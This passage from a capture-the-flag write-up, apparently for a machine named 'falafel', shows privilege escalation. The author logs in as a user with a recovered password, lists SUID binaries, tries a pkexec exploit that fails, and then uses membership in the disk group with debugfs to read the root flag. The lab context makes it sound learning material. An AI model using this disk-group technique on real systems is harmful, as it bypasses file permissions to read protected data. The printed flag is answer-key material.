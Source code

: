 It is clear that `yossi` changed his password to `MoshePlzStopHackingMe!`, thus I am now `yossi`!

```
yossi@falafel:/tmp/yossi$ find / -perm -u=s 2>/dev/null
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/newuidmap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/fusermount
/bin/mount
/bin/ping
/bin/ntfs-3g
/bin/ping6
/bin/su
```

Let's try to exploit that suid on `pkexec` using [https://www.exploit-db.com/exploits/17942](https://www.exploit-db.com/exploits/17942). Compile in on host and download it on target to execute it but the exploit fails.

Then I try some enumeration with `linpeas.sh` again.

```
User & Groups: uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)
```

`disk` group is `99% a PE vector` according to the script. I follow [https://reboare.gitbooks.io/booj-security/content/general-linux/privilege-escalation.html#disk](https://reboare.gitbooks.io/booj-security/content/general-linux/privilege-escalation.html#disk) to ultimately get my root flag:

```
$ debugfs /dev/sda1`
debugfs 1.42.13 (17-May-2015)
debugfs:  cat /root/root.txt
23b79200448c62ffd6f8f2091c001fa1
```
